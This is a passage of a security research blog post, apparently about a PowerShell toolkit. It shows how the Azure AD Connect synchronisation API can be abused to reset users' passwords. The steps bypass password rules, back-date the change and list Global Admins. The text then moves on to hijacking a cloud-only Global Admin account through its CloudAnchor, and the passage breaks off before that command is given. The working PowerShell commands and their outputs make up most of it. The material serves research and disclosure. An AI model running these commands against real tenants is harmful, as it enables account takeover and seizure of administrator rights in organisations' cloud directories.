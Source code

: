 ```
ObjectType             : User
ResultCode             : Success
ResultErrorCode        : 0
ResultErrorDescription : ResultErrorDescription
SourceAnchor           : UQ989+t6fEq9/0ogYtt1pA==
SyncOperation          : Add
```
We can also reset user's password. Because only the <a href="https://www.dsinternals.com/en/how-azure-active-directory-connect-syncs-passwords/" target="_blank">hash</a> of the password is sent to Azure AD, password restrictions are not applied.
This means that we can use <a href="/post/long-passwords/" target="_blank">as long passwords as we want to</a>.
A nice trick is also the possibility to set the password change date to anything we want to.
{{< highlight powershell >}}
# Change the password for AlexW@company.com
Set-AADIntUserPassword -SourceAnchor "UQ989+t6fEq9/0ogYtt1pA==" -Password "NewPwd" -ChangeDate (Get-Date).AddYears(-1)
{{< /highlight>}}
If the Result is 0, the change was successful.
```
CloudAnchor Result SourceAnchor            
----------- ------ ------------            
CloudAnchor 0      UQ989+t6fEq9/0ogYtt1pA==
```
## Getting Global Admin rights
First step when pursuing Global Admin rights is to list the current admins:
{{< highlight powershell >}}
# List the global admins
Get-AADIntGlobalAdmins
{{< /highlight>}}
The output should something similar to below.
```
DisplayName   UserPrincipalName                
-----------   -----------------                
Administrator admin@company.onmicrosoft.com
Cloud Admin   admin@company.com       
Joni Sherman  JoniS@company.com
```
Sometimes the Global Admin is a user which is synced from the on-prem AD (e.g. Joni Sherman above). If this is the case, the password can be changed in the similar way as in our previous example (provided that the domain is Managed, not Federated).

But what if you want to reset the password of cloud-only administrator? At the end of May 2020 I discovered that **the synchronisation API can be used to reset also cloud-only users' passwords!**
The trick is to user CloudAnchor instead of SourceAnchor. So, using the previous examples, we can change the password for admin@company.onmicrosoft.com as we know the Azure AD ObjectId (7b0ad665-a751-43d7-bb9a-7b8b1e6b1c59):
